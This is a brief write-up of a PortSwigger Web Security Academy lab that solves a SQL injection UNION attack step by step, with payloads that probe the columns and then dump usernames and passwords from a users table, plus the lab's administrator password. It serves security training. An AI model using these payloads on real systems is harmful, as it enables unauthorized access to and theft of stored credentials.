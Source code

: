 ```yaml
---
title: 'Lab: SQL injection UNION attack, retrieving data from other tables'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/SQL"
---
```


# Lab: SQL injection UNION attack, retrieving data from other tables
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.
* Hint:  The database contains a different table called users, with columns called username and password.
To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

#### Exp
1. Using all technique we learned before
According to union-based technique we learned before, we can consider there're 2 columns in this database and both of them are text strings
Payload: `?category=Lifestyle' UNION SELECT 'Title name','Post content'--`
2. Find the detailed info in `users` table
Payload: `?category=Lifestyle' UNION SELECT username, password FROM users--`
3. Login as administrator
Username: `administrator`
Password: `5kg73b7jinl9plif82d3`
    :::spoiler Success Screenshot
    ![](https://i.imgur.com/kiRM6bX.png)
    :::

## Reference